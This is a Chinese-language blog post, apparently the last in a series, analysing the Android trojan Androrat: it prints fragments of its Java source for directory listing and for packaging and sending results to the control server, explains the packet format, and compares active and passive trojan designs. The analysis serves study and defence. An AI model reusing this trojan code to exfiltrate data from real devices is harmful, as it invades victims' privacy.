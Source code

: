 ```yaml
---
layout: post
title: "剖析安卓木马Androrat（终）"
date: 2017-04-09 02:06:34 +0800
author: tang3
comments: true
categories: 技术
---
```


## 0x00 前言

前面的两篇文章已经将Androrat的主要功能和处理方式分析的差不多了，这篇文章来做一些收尾的工作，将之前没有说的命令执行结果发送至服务端的数据封装过程分析一下，以及这个应用的执行结构图。

## 0x01 返回数据封装分析

以列出目录树这个功能为例，ProcessCommand这部分功能的代码如下：

```java
} else if (commande == Protocol.LIST_DIR)
		{
			client.sendInformation("List directory request received");
			String file = new String(arguments.array());
			if (!DirLister.listDir(client, chan, file))
				client.sendError("Directory: "+file+" not found");
			
		} else if (commande == Protocol.GET_FILE)
```

调用DirLister.listDir这个方法来实现列目录功能，参数为当前环境的Client对象，解析数据后的channel和执行命令所需的参数（这里是“/”）。下面我们来看listDir的代码:

```java
	public static boolean listDir(ClientListener c, int channel, String dirname) {
		File f;
		ArrayList<MyFile> ar = new ArrayList<MyFile>();
		
		if(dirname.equals("/"))
			f = Environment.getExternalStorageDirectory();
		else
			f = new File(dirname);
		
		if (!f.exists()) {
			return false;
		} 
		else {
			ar.add(visitAllDirsAndFiles(f));
			c.handleData(channel, new FileTreePacket(ar).build());
			return true;
		}
	}
```

大都是执行功能的代码，就不多说了。我们直接来看倒数第二行，将执行结果先通过FileTreePacket的build进行转换，转换为Byte数组的形式，然后通过Client的handleData方法实现封装和传输。handleData中只有一行调用Connection的sendData方法，这个方法也是一行，调用了Mux的send方法。我们直接来看Mux的send的代码：

```java
public void send(int chan,byte[] data)
	{
		try
		{
			TransportPacket tp;
			boolean last = false;
			boolean envoieTotal = false;
			int pointeurData = 0;
			short numSeq = 0;
			int actualLenght;

			while (!envoieTotal) 
			{
				byte[] dataToSend;

				
				if (last || ((Protocol.HEADER_LENGTH_DATA + data.length) < Protocol.MAX_PACKET_SIZE))
				{
					dataToSend = new byte[Protocol.HEADER_LENGTH_DATA + (data.length - pointeurData)];
					last = true ;
					envoieTotal = true ;
				}
				else
					dataToSend = new byte[Protocol.MAX_PACKET_SIZE];
				
				
				actualLenght = dataToSend.length - Protocol.HEADER_LENGTH_DATA;


				byte[] fragData = new byte[dataToSend.length-Protocol.HEADER_LENGTH_DATA];
				System.arraycopy(data, pointeurData, fragData, 0, fragData.length);
				tp = new TransportPacket(data.length, actualLenght, chan, last, numSeq, fragData);
				dataToSend = tp.build();
				
				pointeurData = pointeurData + actualLenght;
				numSeq++;
				if ((data.length - pointeurData) <= (Protocol.MAX_PACKET_SIZE - Protocol.HEADER_LENGTH_DATA))
				{
					last = true;
				}
				
				sender.send(dataToSend);

			}
		}
		catch(NullPointerException e)
		{
			System.out.println("Ce channel n'est pas index");
			e.printStackTrace();
		}
	}
}
```

和上一篇文章讲解码的过程差不多，先判断数据+头部的大小是否超过包的最大值（2048）。如果未超过则构造数据+头部大小的byte数组，last位（参见上一篇文章的服务端发送指令格式）置为true，actualLenght值为发送大小减头部长度。创建fragData数组大小为本次传输的数据大小，将本次传输的内容从存储源数据的data移动到fragData中，然后实例化TransportPacket对象，使用它的build方法来生成传输信息。

若数据+头部的大小超过包的最大值，则last置false，其他操作不变，循环发送直至数据发送完毕。

最后我们可以得到返回数据的结构如下：

![hexdump](/assets/images/2017-04/hexdump.png)

切割后内容与服务端发送指令格式一样

```
totalLength  :00 00 00 28  ==》总共长度，如果分片传递则大于localLength 
localLength  :00 00 00 28  ==》本包长度 
lst          :01           ==》是否为最后一个包 
NumSeq       :00 00        ==》如果是分片，则表示此包为第几个数据包 
channel      :00 00 00 01  ==》服务端所使用的频道 
Data         : …………        ==》数据部分
```

## 0x02 程序结构

按理说程序结构图这部分应该放在第一篇文章中的，不过由于那时对这个程序还没有了解透彻，所以就拖到了最后这篇收尾文章中。如果这我的三篇文章都仔细看过，下面这张图就很好理解，废话不多说直接看图吧：

![structure](/assets/images/2017-04/structure.png)


## 0x03 总结

在分析这个程序的期间，还穿插了对一个恶意apk样本（Xiangce）的分析，对比这两个apk发现Android木马可以针对服务端的响应分为主动式和被动式。

> 被动式：服务端只负责接收客户端返回信息，所需要的功能都在apk生成时确   定，生成后不再可以修改。

> 主动式：服务端主动发送操控命令，客户端响应命令回传数据，也向客户端发送转换为被动式的命令，例如，当收到短信时向服务端发送此条信息。

两种分类中，主动式由于功能大而全，所以需要申请过多的权限，容易在安装时被察觉。被动式功能固定伪装性好，不过灵活性相对较差。Xiangce这个恶意样本是一个偏被动式的恶意样本，功能固定在短信和电话接听这两个主要的方面，之所以说是偏被动，是因为在其功能中有一些需要通过短信发送的方式进行操控的地方。